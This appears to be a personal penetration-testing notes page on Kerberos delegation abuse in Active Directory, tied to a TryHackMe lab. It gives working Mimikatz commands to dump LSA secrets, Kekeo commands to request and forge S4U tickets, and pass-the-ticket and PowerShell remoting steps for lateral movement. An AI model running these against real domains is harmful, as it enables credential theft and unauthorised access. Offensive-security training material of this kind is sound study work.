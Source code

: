 # Active Directory Kerberos Delegation Exploitation

## Introduction

For [[Attacking-Kerberos]] and [[Active-Directory-Kerberos-Authenication-Defined]]

Kerberos Delegation can be used to is to enable an application to access resources hosted on a different server, without Kerberos Delegation we need a AD Service Account and provide it directit or have in innately have direct access to the target resource. With delegation the service account can be delegated to the target resource and interact with it on the behalf of the user able to delegate to the exploited Kerberos delegation victim. This process is visually represented below:

1. Current Context ---> Access ---> Victim x-x-x-x-No Access-x-x-x-x Target Resource
2. Current Context ---> Kerberos Delegation ---> Victim ---> Access Via Delegated to ---> Target Resource

## Constrained Vs Unconstrained

Unconstrained delegation is the original implementation that Microsoft later superceded with Constrained Delegation in 2003. 

- **Unconstrained**

[Unconstrain Delegation](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)  provides no limits to the delegation, if a user with the `"TRUSTED_FOR_DELEGATION"` flag set authenticates to a host with Unconstrained Delegation configured, a ticket-granting ticket (TGT) for that user account is generated and stored in memory. Therefore we could attempt to force a privileged account to authenticate to the host, which would allow them to intercept the generated TGT and impersonate the privileged service. 
[article](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)

- **Constrained**

To make this less over-powered and remediate security failings of Unconstrained Delegation, Microsoft introduced Constrained Delegation in 2003. Constrained Delegation restricts what services an account can be delegated to, limiting exposure if an account is compromised. These are service, HOST for accounts, CIFS - Common Internet File System-based or based on one of allowed [[Network-Protocols-Cheatsheet]] within the AD Domain. With [[Powerview-Cheatsheet]] remember to `import-module`...

```powershell
Get-NetUser -TrustedToAuth
# Look at msds-allowedtodelegateto 
```

Dependent on your current context, Domain layout and attack path objectives.  Understanding the connective mechanicism between machines in AD is key as the [[Network-Protocols-Cheatsheet]]. Usage of either Legitmate Windows variants of or the any of the [[Impacket-Cheatsheet]] relevant, like for WinRM (but not Impacket) [[Evil-winrm-Cheatsheet]]. With Administrative Access [[Mimikatz-Cheatsheet]] to harvest credentials and tokens; [[Kekeo-Cheatsheet]] to generate tickets.

Get a service username and password with Mimkatz
```powershell
# mimikatz.exe
token::elevate
!+ # LSA protection bypass!
lsdump::secrets
```

Generate TGT tickets with Kekeo
**FOR SOME SERVICE REQUIRE MULTIPLE TICKETS**

Method | Protocols
--- | ---
PS Remoting | http wsman

```powershell
# kekeo.exe
tgt::ask /user:<svc-user> /domain:<domain> /password:<password>
# Successful output will have:
> Ticket in file 'tgt_filename'
# Do for each $PROTOCOL required!
tgs::s4u /tgt:'tgt_filename' /user:<impersonation-target> /service:$PROTOCOL/<service>
# Successful output will have:
> Ticket in file 'TGS_...'
# Double check which remoting services need which protocol and forge for each service
```

Import tickets with Mimikatz
```powershell
# mimikatz.exe
privilege::debug
!+ # LSA protection bypass!
# Use TGS file(S) from kekeo
kerberos::ptt $TGS_Filename_beware_of_clipboard_newlines_or_carraige_return
# Successful output:
* File:
'TGS_*....'
OK
```

The Powershell remote into the next server/workstation:
```powershell
klist # Show imported Tickets
New-PSSession -ComputerName <target>.<domain>
Enter-PSSession -ComputerName <target>.<domain>

```


- **Resource-Based Contrained Delegation**

Introduced by Microsoft in 2012, Resource-Based Constrained Delegation (RBCD) once again provided additional restrictions on Kerberos Delegation for security. The service now specifies which objects can delegate to it allowing the service owner to control who can access it. If we have permissions to configure RBCD for a service we have ability to set `msDS-AllowedToActOnBehalfOfOtherIdentity`. populating it with currently control account then we can generate a TGT for the account we control, which will allow us to interact with this service see this article for more [Resource-based Constrained Delegation Abuse](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/).




## References

[THM Room Exploiting AD](https://tryhackme.com/room/exploitingad)
[Unconstrain Delegation Medium Blog](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)
[Resource-based Constrained Delegation Abuse](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)